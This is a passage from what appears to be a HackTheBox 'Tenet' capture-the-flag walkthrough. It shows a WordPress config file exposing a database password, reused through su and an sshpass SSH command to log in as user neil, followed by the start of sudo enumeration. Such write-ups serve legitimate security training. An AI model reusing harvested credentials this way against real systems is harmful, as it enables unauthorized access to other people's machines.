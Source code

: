     /** MySQL database username */
    define( 'DB_USER', 'neil' );

    /** MySQL database password */
    define( 'DB_PASSWORD', 'Opera2112' );
                                                              
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );                

    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8mb4' );

    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );

    define( 'WP_HOME', 'http://tenet.htb');  
    define( 'WP_SITEURL', 'http://tenet.htb');
    ...[snip]...



Noticing the DB username was neil, before connecting to the DB, I tried
`su` with that password, and it worked:



    www-data@tenet:/var/www.md/wordpress$ su - neil
    Password: 
    neil@tenet:~$



From here I could grab `user.txt`:



    neil@tenet:~$ cat user.txt
    567d3388************************



That password also works for SSH access as neil:



    root@kali# sshpass -p Opera2112 ssh neil@10.10.10.223
    Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
    ...[snip]...
    Last login: Tue Jan 12 19:33:02 2021 from 10.10.14.2
    neil@tenet:~$



## Shell as root

### Enumeration

`sudo -l` is typically my first check, and it finds something here:



    neil@tenet:~$ sudo -l
    Matching Defaults entries for neil on tenet:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:
